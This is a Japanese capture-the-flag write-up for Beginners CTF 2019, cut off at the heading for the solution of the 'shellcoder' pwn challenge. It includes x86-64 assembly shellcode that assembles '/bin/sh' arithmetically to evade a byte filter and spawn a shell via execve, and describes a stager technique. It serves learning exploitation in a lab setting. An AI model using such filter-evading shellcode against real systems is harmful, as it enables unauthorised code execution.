# Begginers CTF 2019 write up

今年は会社の同期と組んでチーム[R19](<https://ctftime.org/team/81545>)として Begginers CTFに参加した。
結果は2939ptで22位。
チームメイト二人が自分の苦手なwebとcryptoを解きまくってくれた。

自分の担当は pwn & revで、pwn 1問 + rev 3問 + misc 1問 を解いたので、終了後に解いたpwn2問とともに write up を残す。



# Pwnable

## shellcoder

shellcodeを書く問題。shellcodeの書き方は[別記事](<https://qiita.com/yacropolisy/items/97ea176484f5b05c195d>)にまとめた。

shellcodeを送ったらそのまま実行してくれるが、shellcodeに "b", "i", "n", "s", "h" が含まれる場合は弾かれてしまう。

さらに、送信可能な文字列長も40バイトに限られている。

始めは、以下のように "/bin/sh" である 0x68732f6e69622f2f を 0x67727e6d67612e2e + 0x0101010102010101と表すことで文字制限を回避しようとしたが、shellcodeが長くなりすぎて(49バイト) 失敗した。

```
BITS 64
global _start

 _start:
 xor rdx, rdx
 mov ebx, 0x67722e6d
 add ebx, 0x01010101
 shl rbx, 0x20
 add rbx, 0x67612e2e
 add rbx, 0x02010101
 shr rbx, 0x8
 push rbx
 mov rdi, rsp
 push rax
 push rdi
 mov rsi, rsp
 mov al, 0x3b
 syscall
```

そこで、入力文字数制限と聞いてstagerのことを思い出し、stager + shellcodeで突破した。

stagerというのは追加でshellcodeを読み込むためのshellcode。
stagerは短く書けるので、入力可能な文字の長さに制限がある場合などにとりあえずstagerを流し込んで、そのあとに本命のシェルコードを流し込んだりできる。



### 解法
